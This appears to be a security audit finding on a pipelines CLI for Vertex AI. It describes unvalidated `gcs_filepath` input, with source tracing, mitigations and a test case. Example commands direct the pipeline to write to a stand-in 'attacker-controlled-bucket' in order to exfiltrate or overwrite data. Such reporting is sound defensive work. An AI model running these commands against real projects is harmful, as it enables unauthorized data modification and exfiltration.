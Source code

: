 ### Vulnerability 1: Pipeline Input Injection via `gcs_filepath` parameter

*   **Description:**
    An attacker can inject malicious values into the `gcs_filepath` pipeline parameter via the `-p` option in the `pipelines-cli run` command. This parameter, used in the `sample_pipeline.py`, directly controls the output file path in Google Cloud Storage (GCS) for the `_save_message_to_file` component. By manipulating this parameter, an attacker could potentially overwrite or write files to arbitrary GCS paths accessible by the pipeline's service account. This is a pipeline input injection vulnerability because user-controlled input directly influences the pipeline's behavior without proper validation or sanitization within the pipeline code itself.

    **Steps to trigger the vulnerability:**
    1.  Compile the `sample_pipeline.py` using `pipelines-cli compile sample_pipeline pipeline gs://path/to/pipeline.json`.
    2.  Prepare a `pipeline-run-config.yaml` file with necessary configurations.
    3.  Execute the pipeline using `pipelines-cli run pipeline-run-config.yaml -p "message=Malicious Content" -p "gcs_filepath=gs://attacker-controlled-bucket/malicious-file.txt"`.
    4.  Observe that the pipeline attempts to write "Malicious Content" to the GCS path `gs://attacker-controlled-bucket/malicious-file.txt`, assuming the pipeline's service account has write access to this location. An attacker could replace `gs://attacker-controlled-bucket/malicious-file.txt` with a path to overwrite existing important data if the service account permissions allow it.

*   **Impact:**
    High. Successful exploitation of this vulnerability could allow an attacker to:
    *   **Data exfiltration/modification:** Write arbitrary content to GCS buckets accessible by the pipeline's service account. This could be used to exfiltrate sensitive data by writing it to an attacker-controlled bucket or to modify existing data by overwriting files in buckets the service account has write access to.
    *   **Privilege escalation (in some scenarios):** If the service account used by the pipeline has overly permissive access, an attacker could potentially overwrite critical system files or configuration files in GCS, leading to further compromise of the GCP environment.
    *   **Information disclosure:** By writing to locations they can later access, attackers can use the pipeline's service account to read data that the service account can access and write it to a location they control.

*   **Vulnerability Rank:** High

*   **Currently implemented mitigations:**
    None. The provided code does not implement any input validation or sanitization for pipeline parameters, specifically the `gcs_filepath` parameter. The `_save_message_to_file` component in `sample_pipeline.py` directly uses the provided `gcs_filepath` without any checks.

*   **Missing mitigations:**
    *   **Input validation and sanitization within the pipeline component:** The `_save_message_to_file` component (and any component that handles user-provided file paths or similar sensitive parameters) should implement robust input validation. For `gcs_filepath`, this could include:
        *   **Path validation:** Ensure the path conforms to expected patterns (e.g., starts with `gs://`, bucket name is valid, etc.).
        *   **Path restriction:** Restrict the output path to a predefined set of allowed buckets or directories.
        *   **Content sanitization:** If the content being written is also user-provided, it should be sanitized to prevent injection of control characters or malicious payloads, although this is less relevant for this specific file path injection vulnerability.
    *   **Principle of least privilege for service accounts:**  Ensure the service account used by the pipeline has the minimum necessary permissions. Avoid granting overly broad write access to GCS buckets. Ideally, the service account should only have write access to specific buckets and paths required for the pipeline's legitimate operations.

*   **Preconditions:**
    *   The attacker needs to be able to execute the `pipelines-cli run` command. This typically implies access to the environment where the CLI is installed and configured, which might be a developer's machine or a CI/CD system.
    *   The Kubeflow pipeline must be configured to use a service account that has write permissions to GCS buckets.
    *   The target pipeline must use user-provided input to construct file paths or perform operations that are sensitive to path manipulation, as is the case with `gcs_filepath` in `sample_pipeline.py`.

*   **Source code analysis:**

    1.  **`src/pipelines/console.py`:** The `run` command in the CLI is defined in `src/pipelines/console.py`.
    ```python
    @cli.command()
    @click.argument("run_config_file")
    @click.option(
        "-p",
        "--param",
        multiple=True,
        help=(
            "Pipeline-specific params in key=value format."
            " Example: `-p 'message=hello world'`"
        ),
    )
    def run(run_config_file: str, **pipeline_args: int) -> None:
        """Runs a Kubeflow pipeline in Vertex AI Pipelines.

        RUN_CONFIG_FILE is used to specify the Pipelines job params.
        """  # noqa: DAR101
        pipeline_params = _parse_pipeline_args(pipeline_args)
        run_config = pipeline_runner.PipelineRunConfig.from_file(run_config_file)
        pipeline_runner.run(run_config, pipeline_params)
    ```
    The `-p` options are parsed by `_parse_pipeline_args` and passed as `pipeline_params` to `pipeline_runner.run`.

    2.  **`src/pipelines/console.py` - `_parse_pipeline_args`:**
    ```python
    def _parse_pipeline_args(pipeline_args: Dict[str, Any]) -> Dict[str, Any]:
        """Parses pipeline keyword arguments."""
        args = pipeline_args["param"]
        params = dict([p.split("=") for p in args])
        return params
    ```
    This function simply splits the `-p` arguments by `=` and creates a dictionary. No validation or sanitization is performed here.

    3.  **`src/pipelines/pipeline_runner.py` - `run`:**
    ```python
    def run(
        run_config: PipelineRunConfig,
        pipeline_params: Dict[str, Any],
    ) -> str:
        """Runs a Kubeflow pipeline given by specification file.

        Args:
            run_config: Vertex Pipelines pipeline run configuration.
            pipeline_params: Kubeflow pipeline parameters

        Returns:
            Vertex Pipelines job ID.
        """
        job_id = utils.get_job_id(run_config.pipeline_name)
        vertex.PipelineJob(
            display_name=run_config.pipeline_name,
            job_id=job_id,
            template_path=run_config.pipeline_path,
            pipeline_root=run_config.gcs_root_path,
            parameter_values=pipeline_params, # User-provided parameters are passed here
            enable_caching=run_config.enable_caching,
            location=run_config.location,
        ).run(
            service_account=run_config.service_account,
            sync=run_config.sync,
        )
        return job_id
    ```
    The `pipeline_params` dictionary, which contains user-provided inputs from the CLI, is directly passed to the `parameter_values` argument of `vertex.PipelineJob`.

    4.  **`src/pipelines/sample_pipeline.py` - `_save_message_to_file` component:**
    ```python
    @dsl.component(base_image="python:3.10", packages_to_install=["cloudpathlib==0.10.0"])
    def _save_message_to_file(message: str, gcs_filepath: str) -> None:
        """Saves a given message to a given file in GCS."""
        import cloudpathlib as cpl

        with cpl.CloudPath(gcs_filepath).open("w") as fp: # gcs_filepath is directly used here
            fp.write(message)
    ```
    The `_save_message_to_file` component directly uses the `gcs_filepath` parameter to create a `CloudPath` object and open it in write mode. There is no validation or sanitization of `gcs_filepath` within this component.

    **Visualization of Data Flow:**

    ```
    User Input (CLI: pipelines-cli run -p "gcs_filepath=...")
        --> console.py (_parse_pipeline_args)
            --> pipeline_params (Dictionary)
                --> pipeline_runner.py (run)
                    --> vertex.PipelineJob(parameter_values=pipeline_params)
                        --> Vertex AI Pipelines Execution
                            --> sample_pipeline.py (_save_message_to_file component)
                                --> cpl.CloudPath(gcs_filepath).open("w")  # Vulnerable point: direct use of user-provided gcs_filepath
    ```

*   **Security test case:**

    **Pre-requisites:**
    1.  A GCP project with Vertex AI Pipelines enabled.
    2.  Terraform or manual setup of Vertex AI Pipelines environment as described in `README.md`.
    3.  Installation of `pipelines-cli` as described in `README.md`.
    4.  Configuration of `pipeline-run-config.yaml` with valid GCP project details, including a service account with write access to GCS.
    5.  Ensure the service account used by the pipeline has write permissions to a GCS bucket you control for testing purposes (e.g., `gs://attacker-controlled-bucket`).

    **Steps:**
    1.  **Compile the sample pipeline:**
        ```bash
        pipelines-cli compile sample_pipeline pipeline gs://path/to/pipeline.json # Replace gs://path/to/pipeline.json with a valid GCS path
        ```

    2.  **Prepare `pipeline-run-config.yaml`:** Ensure `pipeline-path` in this file points to the compiled pipeline JSON from step 1, and `gcs-root-path` and `service-account` are correctly configured.

    3.  **Execute the pipeline with a malicious `gcs_filepath` parameter:**
        ```bash
        pipelines-cli run pipeline-run-config.yaml \
            -p "message=This is a test of file overwrite vulnerability" \
            -p "gcs_filepath=gs://attacker-controlled-bucket/pwned.txt" # Replace gs://attacker-controlled-bucket with a GCS bucket you control
        ```

    4.  **Verify the exploit:**
        After the pipeline run completes successfully, check the GCS bucket `gs://attacker-controlled-bucket/`. You should find a file named `pwned.txt` containing the message "This is a test of file overwrite vulnerability". This confirms that the attacker-controlled `gcs_filepath` parameter was successfully used by the pipeline to write to an arbitrary GCS location.

        **Note:** For a more impactful test, instead of an attacker-controlled bucket, try to overwrite a file in a bucket that the pipeline's service account legitimately has write access to, to demonstrate potential data modification within the project's intended storage. Be cautious and only perform such tests in a non-production environment and with explicit authorization.